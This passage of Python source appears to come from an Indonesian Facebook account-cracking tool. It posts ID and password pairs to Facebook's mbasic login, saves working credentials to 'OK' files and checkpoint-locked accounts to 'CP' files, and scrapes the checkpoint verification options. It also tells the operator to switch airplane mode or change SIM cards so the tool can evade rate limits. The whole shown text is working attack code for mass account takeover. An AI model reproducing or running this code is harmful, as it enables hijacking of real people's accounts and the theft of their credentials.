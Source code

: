 				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_SHOAIB(kuki)
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#--------------------[ CHECK-OPSI-CHEKPOINT ]-------------------#
def ceker(idf,pw):
	global cp
	ua = 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.128 Safari/537.36 FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.services;FBDV/EVR-L29;FBSV/10;FBLR/0;FBBK/1;FBCA/arm64-v8a:;]'
	head = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
	ses = requests.Session()
	try:
		hi = ses.get('https://mbasic.facebook.com')
		ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')
		jo = ho.find('form')
		data = {}
		lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
		for anj in jo('input'):
			if anj.get('name') in lion:
				data.update({anj.get('name'):anj.get('value')})
		kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
		opsi = kent.find_all('option')
		if len(opsi)==0:
			print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
		else:
			for opsii in opsi:
				print('\r%s---> %s%s'%(kk,opsii.text,x))
	except Exception as c:
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		print('\r%s---> Tidak Dapat Mengecek Opsi (Cek Login Di Lite/Mbasic)%s'%(u,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
#--------------------------[ CHECK-OPSI-CHEKPOINT-2 ]----------------#
def cek_opsi():
	c = len(akun)
	hu = 'Terdapat %s Akun Untuk Dicek\nSebelum Mulai, Mode Pesawat/Ubah Kartu Sim Terlebih Dahulu'%(c)
	cetak(nel(hu, title='CEK OPSI'))
	input(x+'['+h+'•'+x+'] Mulai')
	cek = '# PROSES CEK OPSI DIMULAI'
	sol().print(mark(cek, style='green'))
	love = 0
	for kes in akun:
		try:
			try:
				id,pw = kes.split('|')[0],kes.split('|')[1]
			except IndexError:
				time.sleep(2)